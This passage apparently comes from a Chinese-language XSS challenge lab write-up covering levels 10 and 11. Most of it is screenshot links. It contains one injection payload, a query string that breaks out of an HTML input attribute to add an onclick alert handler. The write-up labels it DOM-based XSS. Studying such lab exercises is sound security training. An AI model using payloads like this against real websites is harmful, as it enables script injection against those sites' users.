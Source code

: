 ```
?keyword=1&t_sort=3"type="text" onclick="alert(1)
```

DOM型XSS



## level11

![image-20220116143420788](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20XSS%E6%8C%91%E6%88%98.assets/image-20220116143420788.png)

![image-20220116143433447](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20XSS%E6%8C%91%E6%88%98.assets/image-20220116143433447.png)

